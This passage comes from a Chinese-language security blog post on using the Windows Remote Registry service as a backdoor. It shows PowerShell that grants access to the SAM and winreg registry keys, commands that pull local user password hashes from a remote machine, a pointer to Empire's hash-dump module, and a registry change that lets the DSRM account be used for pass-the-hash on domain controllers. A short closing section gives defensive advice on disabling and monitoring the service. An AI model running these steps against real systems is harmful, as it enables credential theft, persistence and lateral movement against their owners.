 ```
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
Set-Acl $Path $acl
}
Add-RegistryACL -Path 'HKLM:\SAM\SAM'
Add-RegistryACL -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg'
```

### 3、使用powershell解密还原远程计算机的本地用户hash

使用以下脚本：

https://github.com/HarmJ0y/DAMP/blob/master/RemoteHashRetrieval.ps1

命令如下：

```
import-module .\RemoteHashRetrieval.ps1
Get-RemoteLocalAccountHash -ComputerName '192.168.112.128'
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-18/4-1.png)

成功获得192.168.112.128上的本地用户hash


### 补充1：

使用powershell解密还原本地所有用户的Hash，代码可参考：

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-PowerDump.ps1

### 补充2：

针对域控制器，远程导出域控制器的本地用户hash，如果想要在域内使用pass the hash，还需要修改域控制器的注册表，允许DSRM账户远程访问：

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
```

## 0x04 防御检测的建议
---

防御：

1. 如果不需要Remote Registry服务，建议禁用

检测：

1. 如果能够访问远程计算机的注册表文件，可供利用的方法还有很多，在检测上，可以对关键服务器的注册表操作进行监控


## 0x05 小结
---

本文介绍了Windows下的Remote Registry的两种后门利用方法：远程执行程序和获取SAM文件中的用户hash。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)







